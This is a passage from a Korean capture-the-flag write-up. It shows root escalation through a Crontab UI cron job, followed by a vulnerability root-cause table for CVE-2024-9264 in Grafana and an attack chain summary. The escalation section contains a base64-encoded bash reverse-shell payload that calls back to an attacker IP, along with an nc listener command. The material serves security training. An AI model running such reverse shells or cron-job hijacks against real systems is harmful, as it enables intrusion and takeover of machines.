



**Crontab UI** — Node.js Express 기반 웹 크론잡 관리 도구다. `/opt/crontabs/crontab.db`를 읽고 쓰며, 등록된 크론잡을 root 권한으로 실행한다. 앞서 발견한 두 개의 크론잡이 그대로 표시된다.

### Crontab UI 크론잡 조작을 통한 root 권한 획득

`Cleanup` 크론잡은 1분마다 root 권한으로 실행된다. Edit 버튼으로 명령어를 리버스 쉘 페이로드로 교체한다.

`bash -i >& /dev/tcp/...` 문법은 sh 환경에서 파싱 오류가 발생한다. 동일하게 Base64로 우회한다.

```bash
echo 'bash -i >& /dev/tcp/10.10.15.55/5555 0>&1' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS41NS81NTU1IDA+JjEK
```

Crontab UI의 Cleanup 크론잡 Command 필드를 다음으로 교체하고 Save한다.

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS41NS81NTU1IDA+JjEK | base64 -d | bash
```





공격 머신에서 리스너를 열고 1분 이내에 연결을 기다린다.

```bash
nc -lvnp 5555
```



`root@planning` — 호스트 머신에서 root 쉘이 연결됐다.

```bash
cat /root/root.txt
```



---

## Vulnerability Root Cause Analysis

| 취약점 | 위치 | 근본 원인 | OWASP |
|--------|------|-----------|-------|
| CVE-2024-9264 (LFI) | Grafana SQL Expressions | DuckDB `read_blob()` 함수에 사용자 입력이 검증 없이 전달되어 임의 파일 읽기 가능 | A03 Injection |
| CVE-2024-9264 (RCE) | Grafana SQL Expressions | DuckDB `shellfs` 확장 로드 후 쉘 명령어 실행 가능 | A03 Injection |
| 환경변수 크리덴셜 노출 | Docker 컨테이너 환경변수 | Grafana 관리자 크리덴셜이 컨테이너 환경변수에 평문으로 주입되어 RCE 시 즉시 노출 | A02 Cryptographic Failures |
| 크리덴셜 재사용 | SSH 계정 | 컨테이너 환경변수의 `enzo` 크리덴셜이 호스트 SSH 계정에 동일하게 사용 | A07 Identification and Authentication Failures |
| Crontab DB 크리덴셜 노출 | `/opt/crontabs/crontab.db` | zip 암호가 평문으로 크론잡 명령어에 하드코딩되어 일반 유저가 읽기 가능 | A02 Cryptographic Failures |
| Crontab UI 크론잡 조작 | 포트 8000 Crontab UI | root 권한으로 실행되는 크론잡의 명령어를 인증된 사용자가 임의로 수정 가능 | A05 Security Misconfiguration |

### 실제 환경에서의 위험성

CVE-2024-9264는 Grafana의 실험적 기능이 충분한 입력값 검증 없이 배포된 데서 비롯된다. DuckDB의 파일시스템 접근 함수와 쉘 확장은 데이터 분석 용도로 설계된 기능이지만, 웹 서비스 컨텍스트에서는 심각한 공격면이 된다. Grafana 11.0.6 이상 또는 11.1.7 이상으로 즉시 업그레이드해야 한다.

Docker 컨테이너 환경변수를 통한 크리덴셜 주입은 설정 편의성을 위해 광범위하게 사용되지만, RCE 취약점이 존재할 경우 `env` 명령어 하나로 모든 시크릿이 노출된다. Docker Secrets나 외부 비밀 관리 솔루션(HashiCorp Vault 등)을 사용해야 하며, 서비스별로 독립된 크리덴셜을 사용해야 한다.

Crontab UI와 같은 웹 기반 시스템 관리 도구를 root 권한으로 운영하는 것은 매우 위험하다. 이런 도구는 내부 네트워크에서만 접근 가능하더라도 권한 분리를 적용하고 최소 권한 원칙에 따라 실행해야 한다.

---

## Attack Chain Summary

| 단계 | 기술 | 도구 |
|------|------|------|
| 포트 스캔 | TCP 서비스 열거 | nmap |
| 웹 열거 | 기술 스택 식별, 디렉토리 탐색 | Wappalyzer, gobuster |
| 서브도메인 열거 | vhost 기반 서브도메인 탐색 | ffuf |
| 서비스 식별 | Grafana 버전 확인 및 CVE 매핑 | curl |
| LFI | CVE-2024-9264 DuckDB read_blob() | CVE-2024-9264.py |
| RCE | CVE-2024-9264 DuckDB shellfs 확장 | CVE-2024-9264.py |
| 리버스 쉘 | Base64 인코딩 우회, bash TCP 리다이렉트 | nc |
| 크리덴셜 탈취 | Docker 컨테이너 환경변수 덤프 | env |
| Lateral Movement | 크리덴셜 재사용으로 SSH 접속 | ssh |
| 내부 서비스 탐색 | 내부 포트 열거 및 서비스 식별 | ss, curl |
| 크리덴셜 탈취 | crontab.db 평문 크리덴셜 | cat |
| 포트 포워딩 | SSH 로컬 포트 포워딩으로 내부 서비스 접근 | ssh -L |
| 권한 상승 | Crontab UI 크론잡 명령어 교체, root 리버스 쉘 | Crontab UI, nc |
| 플래그 획득 | root 쉘에서 파일 읽기 | cat |

